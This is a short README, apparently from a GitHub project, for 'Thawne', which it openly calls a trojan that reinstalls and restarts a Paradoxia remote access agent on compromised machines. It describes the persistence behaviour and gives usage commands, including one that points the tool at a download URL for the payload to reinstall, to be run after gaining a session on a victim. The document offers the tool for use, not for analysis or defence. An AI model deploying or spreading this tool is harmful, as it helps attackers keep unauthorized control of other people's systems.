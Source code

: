 ## Thawne
Thawne is a Sentinel for your Program. A trojan that Reinfects systems. It installs itself on the system it's Executed on. After which Thawne keeps checking if your File Exists on the System and is Running. If it's not running then Start it, If it does not exist or is removed Reinstall it.

#### Example
![thawne](https://github.com/quantumcored/paradoxia/blob/master/images/thawne.gif)

#### Deployment (Example)
After getting a Session in Paradoxia, You can see Bot information and in it, The **Agent Location**, Which is in this case the file I want to be guarded.

![img](https://github.com/quantumcored/paradoxia/blob/master/images/agentlocation.PNG)

We can use thawne with the **Agent Location** and it's absolute filename.

```bash
./thawne http://www.myfileserver/file_to_replace.exe < Absolute Filename > < PATH > 
```

and then Upload the file and Execute it.

#### USAGE 
```bash
$ cd Thawne
$ ./thawne < direct file download link > < filename to watch > < file path to watch >
```
